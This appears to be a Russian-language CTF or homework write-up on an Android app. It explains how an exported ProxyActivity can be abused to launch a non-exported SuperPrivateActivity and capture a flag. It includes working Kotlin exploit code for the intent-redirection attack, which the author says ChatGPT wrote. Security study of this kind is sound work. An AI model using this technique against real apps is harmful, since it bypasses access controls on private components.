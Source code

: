Посмотрим на манифест:

![image](/resourses/mobile8.png)

Видим, что SuperPrivateActivity не экспортирована, следовательно ее нельзя вызвать через adb. Однако есть экспортированная ProxyActivity. Глянем на ее код:

![image](/resourses/mobile9.png)

Видим, что она получает на вход ParcelableExtra, берет от него интент и стартует активити. Через adb дать parcelableExtra нельзя. Придется писать свое приложение. Идем в гости к чатгпт и просим написать нам приложение, которое с помощью прокси активити вызовет нам super private activity:

```kotlin
package com.example.myapplication

import android.content.ComponentName
import android.content.Intent
import android.os.Bundle
import androidx.activity.ComponentActivity


class MainActivity : ComponentActivity() {
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        val superPrivateIntent = Intent()
        superPrivateIntent.setClassName(
            "com.yandex.shad.homework",
            "com.yandex.shad.homework.features.SuperPrivateActivity"
        )
        val intent = Intent()
        intent.putExtra("inner", superPrivateIntent)
        intent.setComponent(ComponentName("com.yandex.shad.homework", "com.yandex.shad.homework.features.ProxyActivity"))
        startActivity(intent)

    }
}
```

Запускаем, видим флаг. Спасибо, чатгпт.
